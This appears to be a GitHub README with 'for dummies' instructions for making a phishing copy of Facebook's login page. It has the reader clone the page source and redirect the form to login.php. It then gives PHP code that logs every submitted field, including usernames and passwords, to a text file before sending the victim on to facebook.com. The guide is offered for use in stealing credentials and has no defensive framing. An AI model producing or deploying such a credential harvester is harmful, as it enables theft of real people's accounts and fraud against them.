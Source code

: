 # Creating-a-phishing-page---very simple-steps-for-dummies-PhP-

Phishing is the most common attack which is used to hack any login details.
For which we need to have phishing pages to upload then in hosting sites.
Here i will show you an example of creating Phishing page (fake loGin page) of Facebook.The method is same for any other website
What we are going to do now.Normally in phishing we will just create a login page which looks same like the real website. For this we need not to code the whole script of the desired website. 

StepS to Reproduced:

1. First go to the desired website Login page for which you want to create Phishing page
lets take www.facebook.com

2. Right click on the website and choose “page source” . Now you can see the whole script of the website.

3. Copy the whole script and paste it into a text file. Press Cntrol+F and type ” action “.
Here in the case of “www.facebook.com “. the script line that has “action” looks something like this.
action=”https://www.facebook.com/login.php?login_attempt=1“ Now replace everything inside the quotes with ” login.php”. so it will look like action=”login.php“ 

4. Save the file as index.html.

5. Now open a new text file and paste the following code

header (‘Location: http://facebook.com ‘);

$handle = fopen(“logs_86354.txt”, “a”);

foreach($_POST as $variable => $value) {

fwrite($handle, $variable);

fwrite($handle, “=”);

fwrite($handle, $value);

fwrite($handle, “\r\n”);

}

fwrite($handle, “===============\r\n”);

fclose($handle);

exit;

?>

Save it as “login.php”
